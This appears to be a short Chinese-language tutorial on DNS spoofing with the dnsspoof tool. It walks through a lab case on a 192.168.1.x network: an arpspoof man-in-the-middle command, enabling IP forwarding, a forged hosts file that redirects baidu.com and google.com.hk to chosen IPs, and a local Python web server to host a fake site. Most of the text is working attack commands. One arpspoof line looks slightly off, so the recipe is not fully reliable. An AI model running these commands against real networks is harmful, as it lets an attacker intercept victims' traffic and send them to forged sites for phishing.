 -i 指定一个网卡
-f 指定要欺骗的网址,如果不指定，将返回本机的IP地址给被攻击者
expression      指定一个Tcpdump规则的包过滤



## 案例

网关
    192.168.1.1
受害者
    192.168.1.100
攻击者
    192.168.1.200

1. 进行dnsspoof前首先要进行arpspoof双向欺骗，做中间人攻击
    sudo arpspoof -t 192.168.1.100 -r 192.168.1.200

1. 开启转发
    sysctl -w net.ipv4.ip_forward=1

1. 按照hosts文件格式，创建一个dnsspoof.hosts文件, 当受害者请求该文件中的域名解析时，我们就返回给他一个伪造的IP地址，让其访问我们伪造的网站。

cat dnsspoof.hosts
54.222.60.252 .baidu.com    //54.222.60.252 www.z.cn
10.10.10.3 .google.com.hk

1. dns攻击
    dnsspoof -i wlp5s0 -f dnsspoof.hosts




也可以在本地开一个80端口创建网站,关闭ip转发，将被攻击者请求的所有ip转到localhost
    sudo python -m SimpleHTTPServer 80

sudo dnsspoof 


典型的dnsspoof_list.txt的内容
    192.168.2.1 www*



## 知识
1. 默认hosts文件
    /etc/hosts

1. 重启网络
    /etc/init.d/networking restart
